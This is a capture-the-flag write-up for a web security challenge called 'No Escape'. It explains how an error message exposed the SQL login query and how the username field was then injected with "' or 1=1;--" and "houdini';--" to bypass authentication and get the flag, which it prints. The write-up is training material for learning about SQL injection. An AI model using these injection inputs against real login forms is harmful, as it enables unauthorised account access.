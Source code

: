 # No Escape

## Web Security: 60 points

## Solve

Since in-person events are currently banned, some magician we've never heard of is trying to sell us on the idea of a "digital" magic show where the magician logs in using an impossible password. For added assurances, one lucky audience member is able to login and see the hash of the password as proof the password is impossible. We're willing to bet the secret to this magic trick is not all that complicated. http://challenge.acictf.com:43248/

## Hints

* Inexperienced web application developers don't always esacpe/sanitize user inputs in there database query strings. This frequently allows [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) attacks that result in unintended behavior.
* The developer was pretty new, so just causing the query to error out may get you more information for the exploit. What happens when you use a single ' or " in each of the login fields?
* You'll need to login as a specific user. If you're new to SQL syntax, [this](https://www.w3schools.com/sql/sql_where.asp) might be useful resource for understanding the intended query and how you can manipulate it for your purposes.

## Solution

Following the hint, enter a single quote (') in the username and password fields. This gives the following result:

> Oops! It looks like the following query caused an error...  
SELECT username FROM users WHERE username = ''' AND pwHash = '265fda17a34611b1533d8a281ff680dc5791b0ce0a11c25b35e11c8e75685509'

This looks like a SQL injection challenge. Look at the `pwHash`. The hash is 64 characters long, which hints that it might be a sha256 hash. Use a sha256 tool to verify (e.g. https://xorbin.com/tools/sha256-hash-calculator). The sha256 hash of a single quote (') is:

```
265fda17a34611b1533d8a281ff680dc5791b0ce0a11c25b35e11c8e75685509
```

This hash matches the output from the webpage. Therefore, the password field is definitely hashed and is difficult to manipulate. However, the username field is not hashed and can be easily manipulated. Attempt the `1=1` trick:

```
username:
' or 1=1;--

password:
AnyString
```

This worked. The website displays:

> Welcome admin! The "hash" for account 'houdini' is 'Not a hash'.

This gives another lead: the username `houdini`. Now to hack houdini:

```
username:
houdini';--

password:
AnyString
```

Result:
> Welcome Houdini, here's your flag: ACI{fd35465a027eeee3be0249d9f86}
